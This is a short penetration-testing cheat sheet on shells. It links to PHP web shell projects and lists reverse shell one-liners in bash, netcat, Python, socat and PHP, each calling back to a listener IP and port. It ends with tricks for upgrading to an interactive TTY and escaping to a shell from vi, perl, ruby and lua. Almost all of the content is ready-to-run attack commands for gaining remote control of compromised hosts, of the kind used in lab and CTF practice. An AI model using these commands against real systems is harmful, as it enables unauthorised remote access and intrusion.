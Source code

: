 # Shells 
- [ ] Web shell 
- [ ] Reverse shell commands 
- [ ] Upgrading shells 

## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash)  
[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell)  
[p0wney web shell](https://github.com/flozz/p0wny-shell)  
[collection of PHP webshells](https://github.com/JohnTroony/php-webshells/tree/master/Collection)    

## Debugging Shells   
executing a command and no response - maybe the command is redirecting to stderr not stdout?
2>&1
Check for versions / path variables  
No path variable? Need absolute path 

    /bin/bash -c 'id'   

## Reverse shell commands  
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):  

    nc -e /bin/sh 172.16.5.1 4242   
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
   
Also Ruby, Java: Reverse shells cheat sheet    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 



## Upgrading to a pseudo terminal / TTY     

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i  
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
    
    Can you upload a [socat static binary](https://github.com/andrew-d/static-binaries)? 
    
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";' 
    perl: exec "/bin/sh"; 
    ruby: exec "/bin/sh" 
    lua: os.execute('/bin/sh') 
    

